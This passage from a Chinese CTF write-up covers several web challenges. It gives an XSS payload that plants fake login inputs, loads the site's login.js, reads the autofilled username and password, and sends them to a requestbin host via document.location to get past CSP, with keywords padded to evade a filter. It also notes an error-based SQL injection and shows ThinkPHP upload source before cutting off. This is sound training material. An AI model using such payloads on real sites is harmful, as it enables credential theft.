 到这里思路就很清晰了, 我们可以间接获取 cookie 的内容, 即先插入两个 input 表单并引用此 js 文件, 然后通过 dom 获取 username password, 最后绕过 csp 外带数据

绕过 csp 的方法很多, 下面以 `document.location` 为例

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">

<scrcookieipt scookierc="/js/login.js"></sccookieript>
<scrcookieipt>
	var username = docucookiement.getEcookielementsByName("username")[0].value;
    var password = doccookieument.getEcookielementsByName("password")[0].value;
    var  data = username + ":" + password;
    docookiecument.locacookietion = "http://http.requestbin.buuoj.cn/xxxx?data=" + data;
</scrcookieipt>
```

最后在 buu requestbin 上查看 flag

![image-20221130154432464](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211301544573.png)

## [RootersCTF2019]babyWeb

简单报错注入

![image-20221130155328561](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211301553622.png)

## [RoarCTF 2019]Simple Upload

thinkphp 3.2.4

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
```